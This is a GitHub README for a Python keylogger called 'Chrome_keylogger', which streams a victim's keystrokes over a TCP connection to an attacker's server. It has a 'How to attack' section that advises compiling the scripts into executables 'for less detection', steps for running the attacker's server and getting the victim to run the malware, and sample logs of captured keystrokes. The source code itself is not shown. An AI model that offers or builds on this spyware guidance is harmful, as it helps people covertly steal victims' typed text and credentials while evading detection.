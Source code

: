 # Important: 
I wrote this code as a 13 year old kid, it's terrible, disorganized and clumsy. You could call it 'Spaghetti' code, for sure. 
If you're interested in taking a look at the code, then just be careful as that might burn your eyes.
Oh, and one more thing, *do not* use this tool to do devious and illegal things. Be safe kids!
.
.
.
# Chrome_keylogger
A keylogger that shares keystrokes over a local TCP connection.

## How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:

  - The attacker must run the server script then bind the server's IP and port. 
  - The victim must run the malware, as soon as the malware starts, the keylogger will start and the TCP client script will automatically connect to the TCP server.
  - The attacker will start receiving keystrokes from the victim's computer.

## Deeper demonstration:
Attacker:
    
    attacker@kali:~$ python3 server.py
    
    IP: 192.168.x.x
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
    
Victim:

    victim@kali:~$ python3 program.py    
